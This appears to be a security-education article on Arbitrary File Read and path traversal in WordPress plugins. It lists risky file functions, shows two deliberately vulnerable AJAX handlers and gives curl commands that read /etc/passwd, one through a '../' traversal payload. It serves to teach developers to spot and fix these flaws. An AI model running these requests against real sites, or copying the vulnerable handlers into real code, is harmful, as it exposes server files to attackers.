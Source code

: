 ```yaml
---
title: Arbitrary File Read
head:
    - tag: title
      content: Learn about Arbitrary File Read
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Read on WordPress. This includes improper file fetch handling inside of the plugin/theme which can be used to read arbitrary local files inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Read"
  href="/academy/wordpress/securing-code/arbitrary-file-read/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Read vulnerability:

- PHP related
    - [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php)
    - [`readfile`](https://www.php.net/manual/en/function.readfile.php)
    - [`fopen`](https://www.php.net/manual/en/function.fopen.php)
    - [`fread`](https://www.php.net/manual/en/function.fread.php)
    - [`fgets`](https://www.php.net/manual/en/function.fgets.php)
    - [`fgetcsv`](https://www.php.net/manual/en/function.fgetcsv.php)
    - [`fgetss`](https://www.php.net/manual/en/function.fgetss.php) *deprecated from PHP 7.3*
    - [`file`](https://www.php.net/manual/en/function.file.php)
    - [`cURL`](https://www.php.net/manual/en/book.curl.php)

- WordPress related
    - [`WP_Filesystem_Direct::get_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents/)
    - [`WP_Filesystem_Direct::get_contents_array`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents_array/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file", "ajax_get_file");

public function ajax_get_file(){
    global $wp_filesystem;

    // Make sure that the above variable is properly setup.
    require_once ABSPATH . 'wp-admin/includes/file.php';
    WP_Filesystem();

    $url = $_GET["url"];
    $data = $wp_filesystem->get_contents($url);
    $data = json_encode( $data );
    echo $data;
    die();
}
```

To exploit this, any authenticated user needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `WP_Filesystem_Direct::get_contents` function.

```bash
curl '<WORDPRESS_BASE_URL/wp-admin/admin-ajax.php?action=get_file&url=/etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

Below are some of the findings related to Arbitrary File Read:

- [Critical Vulnerabilities Patched in WordPress Automatic Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-wordpress-automatic-plugin/)

## Path Traversal

Path traversal is a vulnerability that allows attackers to access files outside the intended directory by traversing file paths. Path traversal can be used to exploit the arbitrary file read when the file read is limited to a specific directory.

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file_of_a_directory", "get_file_of_a_directory");

public function get_file_of_a_directory(){

    $file = $_GET["file"];
    $file_content = file_get_contents(get_template_directory(). $file);
    echo $file_content;
}
```

To exploit this, any authenticated user needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint. The value of the `$_GET['file']` should be traversed backward using `/../../` to access the files in another directory.

```bash
curl '<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=get_file_of_a_directory&url=/../../../../../../../etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```
